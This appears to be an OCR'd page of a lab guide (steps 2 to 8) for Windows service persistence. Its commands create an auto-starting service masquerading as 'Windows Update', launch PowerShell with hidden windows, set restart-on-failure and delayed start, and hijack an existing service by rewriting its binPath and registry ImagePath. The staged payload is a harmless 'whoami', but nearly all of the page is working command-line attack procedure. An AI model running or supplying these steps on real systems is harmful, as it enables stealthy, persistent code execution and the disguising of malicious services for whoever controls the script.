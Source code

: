 2) Stage a benign test script (lab-safe)
```
echo @echo off> C:\ProgramData\svc-demo.bat
echo whoami ^> C:\ProgramData\svc-demo.txt>> C:\ProgramData\svc-demo.bat
```

3) Create a new service (sc.exe)
- BinPath quoting is critical. sc.exe requires a space after each equals.
```
sc.exe create WinUpdate binPath= "C:\Windows\System32\cmd.exe /c C:\ProgramData\svc-demo.bat" start= auto DisplayName= "Windows Update (Demo)"
sc.exe description WinUpdate "Demo: runs a harmless script at boot (lab)"
sc.exe start WinUpdate
sc.exe query WinUpdate
type C:\ProgramData\svc-demo.txt
```

4) Create a new service (PowerShell alternative)
```
powershell -NoP -W Hidden -C "New-Service -Name 'WinUpdate' -BinaryPathName 'C:\Windows\System32\cmd.exe /c C:\ProgramData\svc-demo.bat' -DisplayName 'Windows Update (Demo)' -Description 'Lab demo service' -StartupType Automatic"
powershell -NoP -W Hidden -C "Start-Service -Name 'WinUpdate'"
powershell -NoP -W Hidden -C "Get-Service -Name 'WinUpdate' | fl *"
```

5) Configure failure actions (service restarts if it crashes)
```
sc.exe failure WinUpdate reset= 86400 actions= restart/60000/restart/60000/restart/60000
sc.exe failureflag WinUpdate 1
sc.exe qfailure WinUpdate
```

6) Set delayed auto-start (optional; helps avoid race conditions)
- sc.exe doesn’t expose delayed-auto; set the registry value:
```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\WinUpdate" /v DelayedAutoStart /t REG_DWORD /d 1 /f
```

7) Modify an existing service (hijack approach; be careful)
- Pick a rarely used or manual-start service to avoid breaking the system. Stop service first if running.
```
sc.exe qc "SomeService"
sc.exe stop "SomeService"
sc.exe config "SomeService" binPath= "\"C:\Windows\System32\cmd.exe\" /c C:\ProgramData\svc-demo.bat" start= demand
sc.exe start "SomeService"
type C:\ProgramData\svc-demo.txt
```

8) Registry method to view/edit ImagePath (alternative to sc config)
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SomeService" /v ImagePath
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SomeService" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\cmd.exe /c C:\ProgramData\svc-demo.bat" /f
```
